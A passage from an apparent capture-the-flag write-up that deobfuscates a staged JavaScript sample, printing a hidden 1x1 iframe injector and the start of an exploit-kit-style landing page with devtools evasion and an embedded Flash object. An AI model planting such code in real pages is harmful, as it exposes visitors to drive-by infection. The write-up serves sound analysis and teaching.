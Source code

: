 ```javascript
	return ret;
}

function tPC(nojMia) {
    var SKOx = nojMia.charCodeAt(0) + (nojMia.charCodeAt(1) << 8) + (nojMia.charCodeAt(2) << 16) + (nojMia.charCodeAt(3) << 24);
    return isNaN(SKOx) ? 0 : SKOx;
}

function uyGi(SKOx) {
    var nojMia = String.fromCharCode(SKOx & 255, SKOx >> 8 & 255, SKOx >> 16 & 255, SKOx >> 24 & 255);
    return nojMia;
}

main(realMain, 'oU5qRoGfenAszlAOKYBE')
```

This code is after small deobfuscation (I changed few function names, did beautification, etc) and cut few checks. Similary to previous stage, it was enough to cut few checks and add `console.log(plZla)` instead of `eval(plZla)`. Thanks to this I reached another stage.

```javascript
if (document.referrer != "") {
    var iframe = document.createElement("iframe");
    iframe.src = "depress-choose-opportunity-staircase.html";
    iframe.frameBorder = 0;
    iframe.width = "1";
    iframe.height = "1";
    document.body.appendChild(iframe);
};
```

This code is after serious deobfuscation and beautification. As you can see, This code only creates ifrema with `depress-choose-opportunity-staircase.html` injected.

So, what can we find under this address?

Something like this:

```javascript

window['gWRqmBVp'] = '1';

function xWait(xT) {
    var date = new Date();
    var tmpDate = null;
    do {
        tmpDate = new Date();
    } while (tmpDate - date < xT);
}

function xTrueA() {
    if (navigator.userAgent.indexOf('TMCTF') == -1 && navigator.appVersion.indexOf('ctf/') == -1) {
        return;
    }
    if (!!window.__IE_DEVTOOLBAR_CONSOLE_COMMAND_LINE || ('__BROWSERTOOLS_CONSOLE_SAFEFUNC' in window)) {
        return;
    }
    var mirtul = '1',
        ci = 'clsid:';
    var txt = '<object classid="' + ci + 'd27cdb6e-ae6d-11cf-96b8-444553540000" allowScriptAccess="always" width="1" height="1" id="23kjsdf">';
    txt = txt + '<param name="movie" value="swf/YWxUdHVpZm9uaQbmV6dndo.swf" />';
    txt = txt + '<param name="play" value="true"/>';
```
